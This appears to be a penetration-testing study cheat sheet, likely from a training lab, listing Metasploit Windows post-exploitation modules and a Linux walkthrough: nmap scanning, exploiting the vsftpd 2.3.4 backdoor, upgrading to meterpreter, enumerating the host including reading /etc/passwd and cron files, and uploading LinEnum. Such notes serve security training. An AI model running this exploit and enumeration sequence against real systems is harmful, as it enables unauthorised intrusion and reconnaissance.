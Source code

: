                 **Metasploit**
                
                - `use post/windows/gather/win_privs`
                - `use post/windows/gather/enum_logged_on_users`
                - `use post/windows/gather/checkvm`
                - `use post/windows/gather/enum_applications`
                - `use post/windows/gather/enum_computers`
                - `use post/windows/gather/enum_patches`
                - `use post/windows/gather/enum_shares`
            - Linux
                
                - `nmap -sV 192.218.227.3`
                - Exploit vsftpd
                - `use exploit/unix/ftp/vsftpd_234_backdoor`
                - Get shell
                - `/bin/bash -i`
                - Update shell session to meterpreter
                - `sessions -u 1`
                - `sessions 2`
                - `getuid`
                - `sysinfo`
                - `shell /bin/bash -i cd /root`
                - `hostname`
                - `cat /etc/issue`
                - `cat /etc/*release`
                - `uname -a`
                - `env`
                - `lscpu`
                - `free -h`
                - `df -h`
                - `lsblk | grep sd`
                - `whoami`
                - `id`
                - `ls -al /home cat /etc/passwd`
                - `cat /etc/passwd | grep -v /nologin`
                - `groups root`
                - `ifconfig`
                - `netstat`
                - `route`
                - `arp`
                - `shell /bin/bash -i`
                - `cat /etc/networks`
                - `cat /etc/hosts`
                - `cat /etc/resolv.conf`
                - `arp -a`
                - `ps`
                - `ps aux`
                - `cat /etc/cron*`
                - `crontab -l`
                
                **Automation**
                
                - [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
                - `./LinEnum.sh -s -k keyword -r report -e /tmp/ -t`
                - Go back to meterpreter session
                - `session 1 cd /tmp upload /root/Desktop/LinEnum.sh shell /bin/bash -i`
                - `id`
                - `chmod +x [LinEnum.sh](<http://linenum.sh/>) ./LinEnum.sh`
                